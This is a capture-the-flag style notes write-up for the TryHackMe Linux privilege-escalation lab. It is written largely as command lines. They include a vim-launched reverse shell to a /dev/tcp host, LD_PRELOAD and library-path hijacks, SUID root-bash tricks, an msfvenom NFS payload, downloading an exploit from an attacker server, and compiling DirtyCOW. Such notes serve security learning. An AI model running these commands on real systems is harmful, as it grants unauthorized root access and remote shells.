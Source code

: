 # [Linux PrivEsc](https://tryhackme.com/room/linuxprivesc)
> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Challenge Name | Linux PrivEsc |
| Difficulty | Medium |
| Tags | priv-esc, linux|


---

`openssl passwd new a`
`mkpasswd -m sha512 password`
`vim -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"`

`LD_PRELOAD` -> Loads a shared object before the program is run
`LD_LIBRARY_PATH` -> List of shared directories that are searched for first

```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c 
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

```
ldd /usr/sbin/apache2
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp apache2
```

find all SUID and SGID executables
`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

python's http server

First I launched a server using:
`python -c http.server 8080` which opens up an http server on port 8080
On the victim machine I then ran (after checking it successfully pinged)
`wget http:/$MY_IP:8080/exploit.sh`

Using `strace` to view how a task uses resources

`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

runs an strace on the file and redirects stderr to stdout and uses grep regex to filter out given terms. I redirected this into a new file on the machine as output.txt

Bash versions less than 4.2 you can define function names that appear like paths:
`function /usr/sbin/service { /bin/bash -p; }; export /usr/sbin/service`
run the command asking for `service` or whatever and you now have priviledged access

Cheeky calls for debugging pre-Bash 4.4
`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`

Good practice to check history logs for accidental password input
`cat ~/.*history | less`
And then scan through it for passwords

Exploiting NFS
On your machine, login to root
`mkdir -p tmp/nfs`
`mount -o rw,vers=2 <Victim IP>:/tmp tmp/nfs`
`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o tmp/nfs/shell.elf`
`chmod +xs tmp/nfs/shell.elf`
On the victim machine
`./tmp/shell.elf`

Kernel exploits should be used as a last resort as they may destabilise the system
Check what exploits it is weak to
`perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl`
`gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w`

